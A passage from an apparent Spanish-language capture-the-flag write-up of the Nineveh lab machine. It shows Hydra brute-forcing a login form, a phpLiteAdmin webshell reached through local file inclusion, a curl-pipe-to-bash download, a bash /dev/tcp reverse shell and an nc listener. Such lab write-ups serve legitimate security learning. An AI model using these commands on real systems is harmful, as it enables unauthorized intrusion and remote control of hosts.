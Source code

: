 Es interesante que el puerto 22 este abierto internamente, de momento no podemos hacer nada mas con la pagina, asi que pasamos a la siguiente:

![images/Untitled%205.png](images/Untitled%205.png)

Realizo otro ataque de fuerza bruta contra la pagina que corre en el puerto 443:

```bash
❯ hydra 10.10.10.43 -l loquesea -P /usr/share/wordlists/rockyou.txt https-post-form "/db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -V -s 443
[443][http-post-form] host: 10.10.10.43   login: loquesea   password: password123
```

Conseguimos la contraseña y en google encuentro una apgina donde nos explica como aprovecharnos de la vulnerabilidad que tiene phpLiteAdmin 1.9

# GANANDO ACCESO

Creamos una nueva base de datos, agregamos una tabla, pegamos el código de una webshell y seleccionamos TEXT, la creamos y en el LFI vamos a la ruta donde se ha guardado:

```bash
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes../../../../../../../var/tmp/hack.php&cmd=curl http://10.10.16.198/shell.sh|bash
```

```bash
❯ cat shell.sh
#!/bin/bash

bash -i > /dev/tcp/10.10.16.198/443 0>&1
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.43] 59850
whoami
www-data
```
